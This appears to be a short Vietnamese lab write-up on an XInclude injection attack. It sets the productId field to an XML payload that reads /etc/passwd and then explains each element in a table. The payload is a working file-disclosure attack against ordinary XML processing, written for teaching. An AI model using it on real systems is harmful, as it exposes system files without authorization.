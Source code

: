 Steps:

Thay giá trị trường productId =:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

Giải thích payload: 

| Thành phần                  | Giải thích                                                   |
| --------------------------- | ------------------------------------------------------------ |
| `<foo>`                     | Một element "giả" để gói payload, vì server có thể yêu cầu XML phải hợp lệ. |
| `xmlns:xi="..."`            | Khai báo namespace XInclude. Bắt buộc để trình phân tích XML hiểu `xi:include`. |
| `<xi:include>`              | Thành phần XInclude dùng để nhúng nội dung từ file ngoài.    |
| `href="file:///etc/passwd"` | Đường dẫn đến file cần đọc.                                  |
| `parse="text"`              | Đọc file dưới dạng văn bản thô (nội dung text), chứ không phải XML. |

![image-20250803182738176](./image/image-20250803182738176.png)



![image-20250803182716734](./image/image-20250803182716734.png)
